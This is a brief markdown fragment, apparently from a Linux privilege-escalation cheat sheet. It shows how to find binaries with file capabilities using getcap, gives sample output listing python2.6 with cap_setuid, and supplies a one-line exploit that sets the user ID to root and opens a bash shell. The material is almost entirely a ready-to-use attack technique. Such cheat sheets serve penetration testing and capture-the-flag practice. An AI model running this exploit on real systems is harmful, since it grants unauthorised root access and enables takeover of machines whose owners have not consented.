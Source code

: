  ## Capabilities 
 
 
 Type Command
 
    getcap -r / 2>/dev/null
 
Output
 
   /usr/bin/python2.6 = cap_setuid+ep
   
   
Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
